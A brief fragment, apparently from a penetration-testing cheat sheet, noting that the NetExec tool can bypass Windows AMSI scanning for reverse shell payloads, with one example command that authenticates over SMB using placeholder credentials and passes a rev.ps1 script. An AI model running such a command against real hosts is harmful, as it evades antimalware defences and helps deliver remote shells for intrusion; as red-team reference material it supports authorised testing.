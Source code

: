 # Amsi Bypass

Netexec can also do AMSI Bypass for our reverse shell payloads or execute other programs

    nxc smb IP -u USER -p 'password1' -X '$PSVersionTable' --amsi-bypass rev.ps1
    

